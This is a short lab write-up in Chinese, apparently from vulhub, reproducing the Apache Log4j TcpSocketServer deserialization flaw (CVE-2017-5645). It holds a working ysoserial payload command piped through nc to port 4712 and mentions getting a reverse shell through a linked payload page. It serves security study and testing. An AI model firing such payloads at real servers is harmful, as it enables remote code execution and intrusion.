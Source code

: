 # Apache Log4j Server 反序列化命令执行漏洞（CVE-2017-5645）

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。

## 漏洞环境


环境启动后，将在4712端口开启一个TCPServer。

说一下，除了使用vulhub的docker镜像搭建环境外，我们下载了log4j的jar文件后可以直接在命令行启动这个TCPServer：`java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`，无需使用vulhub和编写代码。

## 漏洞复现

我们使用ysoserial生成payload，然后直接发送给`your-ip:4712`端口即可。

```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

然后执行`docker compose exec log4j bash`进入容器，可见 /tmp/success 已成功创建：

![](1.png)

执行[反弹shell的命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功弹回shell：

![](2.png)
